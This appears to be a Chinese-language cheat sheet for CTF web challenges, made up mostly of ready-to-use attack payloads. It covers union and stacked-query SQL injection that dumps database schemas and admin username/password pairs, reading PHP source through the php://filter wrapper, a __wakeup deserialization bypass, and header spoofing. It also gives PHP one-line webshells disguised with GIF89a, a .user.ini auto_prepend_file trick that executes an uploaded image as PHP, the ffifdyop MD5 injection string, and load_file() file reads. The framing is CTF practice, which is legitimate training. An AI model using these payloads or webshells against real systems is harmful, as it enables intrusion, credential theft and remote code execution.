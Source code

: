 * web题目，flag文件一般认为在根目录，web服务文件在／var/www/html/目录。

* 在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符.

* 常规注入

  ```shell
  #爆出所有库名
  ?id=0 union select 1,group_concat(distinct table_schema) from information_schema.columns
  #爆出数据库news的所有表名
  ?id=0 union select 1,group_concat(distinct table_name) from information_schema.columns where table_schema = 'news'
  #爆出表admin的所有列
  ?id=0 union select 1,group_concat(distinct column_name) from information_schema.columns where table_name = 'admin'
  #查username和password，中间用:隔开
  ?id=0 union select 1,group_concat(username,0x3a,password) from admin
  ```

* 数字注入

  hack world 1

* sql注入 尝试show tables；or；预处理语句；1' or 1=1;# 好用的语句。

  union 的用法值得研究一下，以及其他常用的注入手法。

  ```sql
  0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#

  char(115,101,108,101,99,116)<----->'select'

  1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#

  ```

* web PHP filter 显示后台文件

  ```php
  YOUR_URL?file=php://filter/convert.base64-encode/resource=flag.php
  ```

* PHP

  ```php
  __wakeup()方法绕过
  作用：
  与__sleep()函数相反，__sleep()函数，是在序序列化时被自动调用。__wakeup()函数，在反序列化时，被自动调用。
  绕过：
  当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。
  所以在上面name后面的2表示有2个属性，我们改成3之后他会绕过__wakeup()
    
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  echo serialize($a);
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //Name后面的2在链接中要改成3
  ?>
  ```

* search by python 

  开源项目 dirsearch

* url

  ```
  +    URL 中+号表示空格                                 %2B  
  空格 URL中的空格可以用+号或者编码           %20
  /   分隔目录和子目录                                     %2F    
  ?    分隔实际的URL和参数                             %3F    
  %    指定特殊字符                                          %25    
  #    表示书签                                                  %23    
  &    URL 中指定的参数间的分隔符                  %26    
  =    URL 中指定参数的值                                %3D

  $IFS$1可以代替空格
  ```

* 伪造headers

  ```shell
  Referer 伪造来自哪里
  X-Forwarded-For 伪造IP
  User-Agent 伪造浏览器
  ```

* webshell

  ```php
  <?php @eval($_POST[cmd]);?>
  GIF89a #伪装图片
  <script language='php'>eval($_POST['shell']);</script>

    .user.ini
  GIF89a                  
  auto_prepend_file=a.jpg
  .user.ini实际上就是一个可以由用户“自定义”的php.ini，我们可以自定义除了PHP_INI_SYSTEM以外的模式，在执行php代码之前，系统会对.user.ini先做一个执行，然后才执行其他的php文件。

  我们这边利用.user,ini先执行auto_prepend_file函数，auto_prepend_file表示在php程序加载第一个php代码前加载的php文件，也就是先加载了a.jpg里面的文件，即一句话木马。
  ```

* md5 注入

  ```
  ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6
  ```

* robots.txt 

* 反序列化漏洞

* load_file()函数

  ```
  /view.php?no=0 union/**/select 1,load_file('/var/www/html/flag.php'),3,4
  ```

  ​